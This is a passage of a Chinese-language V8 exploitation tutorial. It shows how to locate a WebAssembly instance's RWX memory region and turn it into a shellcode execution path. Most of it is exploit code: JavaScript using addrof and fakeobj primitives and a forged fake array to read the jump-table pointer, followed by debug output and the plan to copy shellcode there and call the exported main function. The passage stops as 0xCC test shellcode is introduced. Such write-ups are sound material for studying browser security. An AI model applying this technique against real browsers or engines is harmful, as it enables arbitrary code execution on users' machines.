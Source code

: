 使用在线工具 [WasmFiddle](https://wasdk.github.io/WasmFiddle/)，获取 WASM 字节码。用下面的代码实例化 WASM 模块：

```javascript
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,0,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
```

在源码中符串搜索，可以找到找到了 WebAssembly 编译执行中用到的两个关键函数`WebAssemblyModule` 和 `WebAssemblyInstance`。调试这两个函数, 最后找到`WasmInstanceObject` 对象的 `kJumpTableStartOffset` (`0x00000068`) 偏移处存放了 RWX 内存区的地址。

读出 `WasmInstanceObject` 对象中存储的 RWX 内存区地址：

```javascript
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,0,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);

%DebugPrint(wasmInstance);
instance_start = addrof(wasmInstance);
console.log(instance_start.toString(16));
instruction_ptr = instance_start + BigInt(0x68);
console.log(instruction_ptr.toString(16));
fake_fixed_array_ptr = instruction_ptr - BigInt(0x8)

buf_for_fake_arr = [1.1, 1.2]
// [double_array_map, props]
buf_for_fake_arr[0] = itof(make_qword(double_array_map, 0));
// [elems, len]
buf_for_fake_arr[1] = itof(make_qword(fake_fixed_array_ptr, 8 << 1));

start_ptr_of_fake_arr = addrof(buf_for_fake_arr) - BigInt(0x10);
instruction_ptr_reader = fakeobj(start_ptr_of_fake_arr);

console.log(ftoi(instruction_ptr_reader[0]).toString(16));
```

输出：

```bash
0x02f8081d4ba1 <Instance map = 000002F808206F61>
81d4ba1
81d4c09
be50a41000
```

伪造 `ArrayBuffer`，把 shellcode 拷贝到 `be50a41000`，再调用 WebAssembly 块导出的 `main` 函数，实际上执行的就是 shellcode 了。

用 0xCC 作为 shellcode 验证效果：
